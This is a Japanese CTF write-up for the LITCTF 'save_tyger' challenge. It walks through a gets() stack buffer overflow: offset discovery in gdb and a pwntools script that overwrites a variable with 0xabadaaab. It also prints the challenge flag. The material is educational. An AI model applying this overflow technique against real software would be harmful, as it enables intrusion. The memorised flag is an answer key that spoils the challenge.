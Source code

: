# save_tyger
初歩的なバッファオーバーフロー問題．ソースファイルを見てみると<br><br>

~~~
int main(){
	long pass;
	char buf[32];
	pass = 0;
	printf("Oh no, someone stole our one and only Tyger! :noo:\n");
	printf("Would you help us save him?\n");
	gets(buf);
	if(pass == 0xabadaaab){
		printf("It worked!\n");
~~~
<br>
passに0xabadaaabを代入できれば突破できそう．ここまでわかれば後はpassを書き換えるためのオフセットを知ることと，ペイロードを作成することの2つをこなせばよい．<br><br>
オフセットを探す際には，いつも通りgdbを活用する．ブレークポイントはmain関数に設置<br><br>

![スクリーンショット](https://user-images.githubusercontent.com/64766627/183295807-815fb818-be4a-421a-afd5-09d4131b4ad0.png)<br><br>

オフセットはgets(buf)にて，何文字目からpassの塗りつぶしが始まるかを表している．ひとまず，50文字のパターンを生成し，入力に使ってみる．↓の画像はget命令が実行される部分で50文字のパターンを入力しているところ．<br><br>

![スクリーンショット](https://user-images.githubusercontent.com/64766627/183379211-4f894b29-1baa-456e-b7eb-02cd4fa6695f.png)<br><br>

get命令の2つ先に，0xabadaaabと一致するか比較するcmp命令が存在する．ここの直前まで進めて，比較対象の\[rbp-0x8\]を確認してみる．(16進数であることに注意)<br><br>

![スクリーンショット](https://user-images.githubusercontent.com/64766627/183380120-402c24a1-3c73-4f1a-a220-06668d3ecc4c.png)<br><br>

これで`AA0AAFAAbA`がpassに書き込まれていることが確認できた．パターン検索`patto 
AA0AAFAAbA`で，オフセットが40であることがわかる．ここまで来ればあとはペイロードを作るだけだ．<br><br>

ペイロード作成はいたってシンプルで，接続先指定，送信，出力表示の3つを行うだけである．書き換えたい値`0xabadaaab`についてはリトルエンディアンであることに注意して書く．↓こんな感じ．同じディレクトリにtyger_solve1.pyあり．<br><br>

~~~
from pwn import *

#テスト
#p=process("./save_tiger")

#接続先
p=remote("litctf.live", 31786)

#送信内容
p.sendline("A"*40+"\xab\xaa\xad\xab")

#出力表示(一回に一行しか表示されないので連打してます)
print(p.recvline())
print(p.recvline())
print(p.recvline())
print(p.recvline())
print(p.recvline())
~~~
<br><br>

実行すればflagが入手できる

<details>
<summary>答え</summary>
LITCTF{y4yy_y0u_sav3d_0ur_m41n_or94n1z3r}<br><br>

![スクリーンショット](https://user-images.githubusercontent.com/64766627/183384594-64157968-68ed-47b2-a44d-178772a42adb.png)

</details>
